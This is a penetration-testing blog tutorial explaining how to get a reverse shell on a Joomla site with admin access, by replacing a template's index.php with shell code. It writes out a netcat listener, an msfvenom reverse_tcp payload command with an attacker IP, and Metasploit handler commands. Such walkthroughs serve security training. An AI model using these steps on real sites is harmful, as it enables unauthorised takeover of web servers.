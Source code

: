 ```yaml
---
title: 'Joomla: Reverse Shell'
date: 2019-10-29T21:43:00+01:00
draft: false
---
```


Joomla is one of the popular Content Management System (CMS) which helps you to build your website. Joomla has gained its popularity by being user-friendly as its complication-free when during installation; and it is also pretty reliable. In this article, we learn how to get a reverse shell of Joomla.

As you can see in the image below, the website is made in Joomla. Now, that we have our Joomla environment we start exploiting it. 

![](https://i1.wp.com/1.bp.blogspot.com/-kFYnSXVFvW4/XbhytR0HSQI/AAAAAAAAhHM/ZFun5TCVmS4dzxFg-ozNawhkDhCXTbT5ACLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

The attack that we are going to show is categorised under post-exploitation; which means one should have login credentials of Joomla. The URL of the login page of Joomla will be consisted of ‘joomla/administrator’ and here, enter username and password as shown in the image below :

![](https://i2.wp.com/1.bp.blogspot.com/-6umI-JWZE9M/Xbhys7tf32I/AAAAAAAAhHI/uSPRNBEnG2krL4iqU9hU40NFQ4C_IeaTwCLcBGAsYHQ/s1600/2.png?w=687&ssl=1)

Once you are logged in, go to extensions. A drop-down menu will appear, from this menu select templates; just like it has been shown in the image below :

![](https://i1.wp.com/1.bp.blogspot.com/-ivTpSjYQ_ts/XbhyuF5215I/AAAAAAAAhHQ/nluZvOXQFC4S3nF1F99ciTA9t46ksRoggCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

Implementing the above will show you the list of templates present in the website and so we will exploit one of them i.e. Beez3 details and files.  

![](https://i1.wp.com/1.bp.blogspot.com/-EiyVCaIk9TA/XbhyueifHFI/AAAAAAAAhHU/dTiGQ73dYlwdy4E5jVUXRFi3BVFYtNUwgCLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

Once, you are in the template, go to index.php as shown in the image below :

![](https://i0.wp.com/1.bp.blogspot.com/-8t_C9g7WwIE/XbhyuViZrTI/AAAAAAAAhHY/3v6UyRDMRN0gadbnFc9rTADqX8feLt2oACLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

This way you will able to edit index.php in the template as you can see in the image below :

![](https://i1.wp.com/1.bp.blogspot.com/-5or2amsT7Mg/XbhyvK4qO1I/AAAAAAAAhHc/EesrAnhDa9UJW89rNfqZ_fK78vMUEt84ACLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

Now, swap the code of index.php with the reverse shellcode i.e. found in Kali Linux and add your IP and port in the code just like it has been shown in the image below :

![](https://i2.wp.com/1.bp.blogspot.com/-jIjLpkMU3oE/Xbhyva9IR2I/AAAAAAAAhHg/eibg_vUUqkk8BJomiURNysps9wZEv6tPACLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

Now, activate netcat to get a session with the following command :

```
nc -lvp 1234
```

![](https://i0.wp.com/1.bp.blogspot.com/-cooH80pCEz8/XbhyvhJMHmI/AAAAAAAAhHk/S1t3dFtcWEweh6TS2W-RumxpNe63B-94wCLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

Another way to get a reverse shell is by msfvenom, and for this type the following command :

```
msfvenom -p php/meterpreter/reverse\_tcp lhost =192.168.0.9 lport=1234 R
```

![](https://i2.wp.com/1.bp.blogspot.com/-wKmFKhjxmQ4/XbhywOcLLvI/AAAAAAAAhHo/BAiKdbBUhMsajvDKV9_FR5WfIp85UKRAgCLcBGAsYHQ/s1600/9.png?w=687&ssl=1)

The above command will give you the malicious php code. Swap this code just like before  and simultaneously start the multi/handler as shown in the image below :

```
use exploit/multi/handler  
set payload php/meterpreter/reverse\_tcp  
set lhost 192.168.0.9  
set lport 1234  
exploit
```

![](https://i2.wp.com/1.bp.blogspot.com/-OvSq7FWQ9VM/Xbhys2uBpRI/AAAAAAAAhHE/yvE-s5rD4cMC32FT5jmr6WzP7MeztVnGgCLcBGAsYHQ/s1600/10.png?w=687&ssl=1)

These were the two ways to get a reverse shell in Joomla.

**Author**: **Yashika Dhir** is a passionate Researcher and Technical Writer at Hacking Articles. She is a hacking enthusiast. contact **[here](https://www.linkedin.com/in/yashika-dhir-b94722a3?trk=pulse-det-athr_prof-art_hdr)**

The post [Joomla: Reverse Shell](https://www.hackingarticles.in/joomla-reverse-shell/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/2MX3IKI